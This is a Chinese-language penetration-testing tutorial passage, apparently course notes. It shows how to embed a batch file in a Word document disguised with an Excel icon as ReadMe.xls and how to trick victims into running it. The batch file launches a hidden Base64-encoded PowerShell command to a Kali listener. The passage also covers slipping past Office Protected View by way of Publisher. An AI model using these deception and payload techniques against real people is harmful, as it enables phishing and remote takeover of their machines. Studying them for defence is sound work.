 接下来，我们将在Microsoft Word文档中包含上述脚本。我们将打开Microsoft Word，创建一个新文档，导航到插入界面，然后单击对象菜单。在这里，我们将选择创建从文件标签，并选择我们新创建的批处理脚本launch.bat:

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605944270467-d6311e4f-c43f-4418-936c-6a767025aeb6.png)

我们还可以在Word文档中更改批处理文件的外观，使其看起来更温和。为此，我们只需选中Display as icon复选框并选择Change icon，就会弹出如图所示的菜单框，允许我们进行更改:

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605944294481-0900509c-30d9-482b-8101-709c5776d16e.png)

尽管这是一个嵌入的批处理文件，微软允许我们为它选择一个不同的图标并输入标题，这是受害者将看到的，而不是实际的文件名。在上面的示例中，我们选择了Microsoft Excel的图标以及一个名为ReadMe.xls的名称，以完全屏蔽该批处理文件，试图降低受害者的怀疑。接受菜单选项后，批处理文件被嵌入到Microsoft Word文档中。接下来，受害者必须被诱骗双击它并接受安全警告，如图所示:

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605944330620-580d9121-a419-4c78-9214-1e02ba52b098.png)

一旦受害者接受警告，cmd.exe就会启动。同样，我们能够执行任意程序，并且必须使用Base64编码的命令将其转换为PowerShell的执行。这一次，转换非常简单，我们只需将cmd.exe更改为以前使用的PowerShell调用，如下面所示。

```
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```

后面也就是kali监听上线就可以了。

### 逃避受保护的视图

上面的微软Word文档在本地提供时非常有效，但从互联网提供时，比如通过电子邮件或下载链接，我们必须绕过另一层被称为保护视图的保护，它禁止文档中的所有编辑和修改，并阻止宏或嵌入对象的执行。

为了模拟这种情况，我们将把包含嵌入式批处理文件的Microsoft Word文档复制到Kali机器上，并将其托管在Apache服务器上。然后我们可以从服务器下载文档，并在受害机器上打开它。此时，受保护视图被使用，如图所示，我们不能执行批处理文件。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605944450122-ec0cd540-47da-433f-bdd3-864f5fe9d303.png)

虽然受害者可能单击启用编辑并退出保护视图，但这是不可能的。理想情况下，我们宁愿完全绕过Protected视图，实现这一点的一种直接方法是使用另一个Office应用程序。

像Microsoft Word一样，Microsoft Publisher允许嵌入对象，并最终以与Word和Excel完全相同的方式执行代码，但不会为互联网传输的文档启用保护视图。我们可以使用之前在Word中应用的策略来绕过这些限制，但缺点是Publisher的安装频率不如Word或Excel。不过，如果您的指纹检测到一个出版商的安装，这可能是一个可行的和更好的矢量。

他这里推荐的是使用另一种类似微软办公软件的软件，这样的话，像国内的wps看起来有点相似。